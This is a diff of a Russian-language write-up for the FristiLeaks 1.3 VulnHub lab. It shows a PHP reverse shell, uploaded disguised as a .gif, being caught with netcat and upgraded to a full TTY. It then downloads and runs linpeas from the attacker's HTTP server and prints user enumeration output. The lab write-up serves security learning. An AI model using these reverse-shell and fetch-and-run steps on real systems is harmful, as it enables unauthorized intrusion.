

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: Lin Basic - FristiLeaks_1.3/writeup.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Lin Basic - FristiLeaks_1.3/writeup.md
+++ b/Lin Basic - FristiLeaks_1.3/writeup.md
@@ -127,33 +190,69 @@ Sorry, file not uploaded
 Другой вариант не сработал
 ![shell](screenshots/04.uploads_gif_php.png)
 
+По первому варианту получаю реверс шелл по url `http://192.168.56.128/fristi/uploads/php-reverse-shell.php.gif` и улучшаю его
 ```bash
-┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
-└─$ wget http://192.168.56.128/images/3037440.jpg -O img.jpg
+┌──(kali㉿0x2d-pentest)-[~]
+└─$ nc -lvnp 5555
+listening on [any] 5555 ...
+connect to [192.168.56.106] from (UNKNOWN) [192.168.56.128] 43446
+Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
+ 02:27:55 up  2:36,  0 users,  load average: 7.68, 7.04, 7.88
+USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=48(apache) gid=48(apache) groups=48(apache)
+sh: no job control in this shell
+sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
+python -c 'import pty;pty.spawn("/bin/bash")'
+bash-4.1$ ^Z
+zsh: suspended  nc -lvnp 5555
 
-┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Basic - FristiLeaks_1.3/exploits]
-└─$ exiftool img.jpg
-ExifTool Version Number         : 12.76
-File Name                       : img.jpg
-Directory                       : .
-File Size                       : 108 kB
-File Modification Date/Time     : 2015:11:25 03:50:53-05:00
-File Access Date/Time           : 2025:07:22 00:40:16-04:00
-File Inode Change Date/Time     : 2025:07:22 00:39:30-04:00
-File Permissions                : -rw-rw-r--
-File Type                       : JPEG
-File Type Extension             : jpg
-MIME Type                       : image/jpeg
-JFIF Version                    : 1.01
-Resolution Unit                 : inches
-X Resolution                    : 96
-Y Resolution                    : 96
-Image Width                     : 400
-Image Height                    : 400
-Encoding Process                : Baseline DCT, Huffman coding
-Bits Per Sample                 : 8
-Color Components                : 3
-Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
-Image Size                      : 400x400
-Megapixels                      : 0.160
+┌──(kali㉿0x2d-pentest)-[~]
+└─$ stty raw -echo; fg
+[1]  + continued  nc -lvnp 5555
+                               export TERM=xterm
+bash-4.1$ pwd
+/
+bash-4.1$ id
+uid=48(apache) gid=48(apache) groups=48(apache)
+bash-4.1$
 ```
+
+Поднимаю сервер
+```bash
+┌──(kali㉿0x2d-pentest)-[~/Downloads]
+└─$ python3 -m http.server 8888
+Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
+```
+
+Загружаю `linpeas`
+```bash
+bash-4.1$ sudo -l
+[sudo] password for apache:
+Sorry, try again.
+
+bash-4.1$ cd /tmp
+bash-4.1$ wget http://192.168.56.106:8888/linpeas.sh
+bash-4.1$ chmod +x ./linpeas.sh
+bash-4.1$ ./linpeas.sh
+```
+
+### System
+```bash
+                               ╔═══════════════════╗
+═══════════════════════════════╣ Basic information ╠═══════════════════════════════
+                               ╚═══════════════════╝
+OS: Linux version 2.6.32-573.8.1.el6.x86_64 (mockbuild@c6b8.bsys.dev.centos.org) (gcc version 4.4.7 20120313 (Red Hat 4.4.7-16) (GCC) ) #1 SMP Tue Nov 10 18:01:38 UTC 2015
+User & Groups: uid=48(apache) gid=48(apache) groups=48(apache)
+Hostname: localhost.localdomain
+```
+
+### Users
+```bash
+╔══════════╣ Users with console
+admin:x:501:501::/home/admin:/bin/bash
+eezeepz:x:500:500::/home/eezeepz:/bin/bash
+fristigod:x:502:502::/var/fristigod:/bin/bash
+mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
+root:x:0:0:root:/root:/bin/bash
+```
+
````
Also changed, not shown: other parts of Lin Basic - FristiLeaks_1.3/writeup.md (+91 -2 lines).
